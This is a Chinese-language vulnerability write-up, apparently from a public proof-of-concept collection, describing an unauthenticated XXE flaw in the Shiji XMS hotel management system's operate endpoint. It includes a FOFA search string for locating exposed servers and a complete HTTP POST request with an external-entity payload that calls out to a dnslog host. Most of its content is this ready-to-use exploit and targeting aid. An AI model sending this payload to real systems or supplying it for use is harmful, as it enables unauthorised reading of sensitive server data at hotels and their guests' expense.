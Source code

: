 # 西软云XMS operate接口存在XXE漏洞

# 一、漏洞简介
西软云XMS是基于云平台数据中心开发的支持多酒店、多语言、多平台的酒店管理系统。致力于以新一代云架构为国内四，五星级中高端酒店提供灵活、高度整合酒店业务，助力酒店智能转型升级。2020的开年突变，对酒店行业来讲，无疑是天降横祸。覆巢之下，焉有完卵，对酒店管理系统企业来说，则是增量市场的红利几乎消失，所有品牌都得在存量市场里搏杀，生存和创新，是2020年的头号命题。西软云XMS /XopServerRS/rest/futurehotel/operate接口处存在XML实体注入漏洞，未经身份认证的攻击者可利用此漏洞获取服务器内部敏感数据，使系统处于极不安全状态。

# 二、影响版本
+ 西软云XMS

# 三、资产测绘
+ fofa`app="shiji-西软云XMS"`
+ 特征

![1711817597122-2208de63-eaca-439e-a2d3-83213cca9fb8.png](./img/9I5b4qVYQjvHjf2I/1711817597122-2208de63-eaca-439e-a2d3-83213cca9fb8-622096.png)

# 四、漏洞复现
```plain
POST /XopServerRS/rest/futurehotel/operate HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.3157.54 Safari/537.36
Content-Length: 79
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: text/xml

<!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://q26gls.dnslog.cn"> %remote;]>
```

![1711817615653-a87b144a-a77e-4cf1-b296-a5ff885a353e.png](./img/9I5b4qVYQjvHjf2I/1711817615653-a87b144a-a77e-4cf1-b296-a5ff885a353e-517502.png)



> 更新: 2024-04-20 22:27:26  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/vt5rnzir8sgdr1pz>